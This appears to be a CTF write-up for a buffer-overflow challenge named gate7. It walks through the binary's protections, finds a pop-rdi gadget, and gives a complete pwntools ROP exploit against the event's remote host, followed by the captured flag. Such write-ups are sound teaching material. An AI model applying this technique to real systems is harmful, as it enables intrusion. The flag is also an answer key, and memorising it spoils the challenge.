


## Overview
```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 48 bytes but reads in 128 bytes, therefore overflowing it.



---
## Exploit Development
The program includes a function named `open_gate()` that prints the flag, so we must call that. But this challenge implements a custom `read()` wrapper that requires you to fill the buffer entirely. We can just add padding to fill the buffer with python's `ljust` function.



`open_gate()` requires the argument of `0xc0ffee` to be passed and since NX is enabled, we need a gadget to control the value of `rdi`:
```bash
bird ➜ ~/.../WOLVCTF_2026/gate7 $ ROPgadget --binary gate7 | grep "pop rdi"
[ ... SNIP ... ]
0x0000000000401203 : mov rbp, rsp ; pop rdi ; ret
0x0000000000401206 : pop rdi ; ret
0x0000000000401202 : push rbp ; mov rbp, rsp ; pop rdi ; ret
[ ... SNIP ... ]
```
- `pop rdi ; ret` gadget at `0x401206`. 

---
## Final Pwn

```python
from pwn import *

BINARY = "./gate7"
elf = context.binary = ELF(BINARY, checksec=False)

GDBSCRIPT="""
b *main
c
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("gate7.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

payload  = b"A" * 56
payload += p64(0x401206) # pop rdi ; ret
payload += p64(0xc0ffee)
payload += p64(0x40120b) # open_gate
payload  = payload.ljust(0x80, b"A")   

io.sendlineafter(b"Enter access code:", payload)
io.interactive()
```
```
wctf{p0p_rd1_ret_th3_gate_1s_0p3n}
```